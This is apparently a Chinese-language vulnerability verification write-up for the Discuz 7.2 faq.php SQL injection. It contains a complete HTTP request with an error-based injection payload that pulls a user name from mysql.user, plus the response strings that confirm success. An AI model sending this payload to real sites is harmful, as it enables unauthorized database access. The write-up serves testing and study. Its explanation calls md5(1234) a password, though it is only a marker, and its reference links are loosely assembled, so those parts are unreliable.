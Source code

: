 ##### 构造并发送HTTP请求

``` http
GET /faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select%20concat(user,0x3a,md5(1234),0x3a)%20from%20mysql.user%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23 HTTP/1.1
Host: www.xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Referer: https://www.xxx.com/
```

##### 判断相应包

1. HTTP响应状态码``` 200```
2. HTTP响应body包含字符串```81dc9bdb52d04dc20036dbd8313ed055 ```
3. HTTP响应body包含字符串 ``` Discuz! info</b>: MySQL Query Error```

#### 示例说明

这个请求包是用于验证Discuz v72 /faq.php页面是否存在SQL注入漏洞的。

请求的目标是/faq.php页面，通过GET方法提交了一个名为grouppermission的参数，该参数的值是一个字典，包含了99和100两个键。其中：

**键99**的值是%27，表示一个单引号。discuz在全局会对GET数组进行addslashes转义，也就是说会将'转义成\'，所以，如果我们的传入的参数是：gids[1]='的话，会被转义成$gids[1]=\'

**键100**的值是一个数组，包含了一个索引为0的元素，其值为

```html
)%20and%20(select%201%20from%20(select%20count(*),concat((select%20concat(user,0x3a,md5(1234),0x3a)%20from%20mysql.user%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23
```

URL解码后

```mysql
) and (select 1 from (select count(*),concat((select concat(user,0x3a,md5(1234),0x3a) from mysql.user limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)#
```

这个数组值是用于构造SQL注入的payload。

路径中提取出的SQL语句为：

```sql
select 1 from (select count(*),concat((select concat(user,0x3a,md5(1234),0x3a) from mysql.user limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)
```

>  这个SQL语句的意思是从信息模式(schema)中的表中获取随机行数，并将用户的用户名和经过md5加密的密码以特定格式返回。
>
> 具体过程如下：
>
> 1. `select concat(user,0x3a,md5(1234),0x3a) from mysql.user limit 0,1`：从MySQL的`mysql.user`表中获取第一行用户的用户名，并将1234经过md5加密后作为密码，使用冒号（0x3a）进行分隔，将用户名和密码拼接在一起。
> 2. `floor(rand(0)*2)`：生成一个0到1之间的随机数，并通过取整(floor)将其转换为0或1。
> 3. `select count(*),concat((...),floor(rand(0)*2))x from information_schema.tables group by x`：遍历信息模式(schema)中的所有表，根据生成的随机数0或1进行分组，然后将上一步中拼接的用户名、密码和随机数拼接在一起。
> 4. `select 1 from (...)`：将上一步生成的结果作为子查询，然后从中选择数字1。
>
> 此SQL语句的目的是获取一个包含用户名、密码和随机数的查询结果集。


[1]: https://cybertuz.com/blog/post/crlf-injection-CVE-2021-27132	"Sercomm AGCOMBO VD625 Smart Modems CRLF注入漏洞(CVE-2021-27132)"
[1]: https://blog.csdn.net/weixin_40709439/article/details/82780606
[2]: https://blog.csdn.net/weixin_33860722/article/details/92015266
[3]: https://blog.csdn.net/weixin_34067049/article/details/85185973?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165294294916781818786361%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&amp;request_id=165294294916781818786361&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-3-85185973-null-null.142^v10^pc_search_result_control_group,157^v4^control&amp;utm_term=discuz7.2sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&amp;spm=1018.2226.3001.4187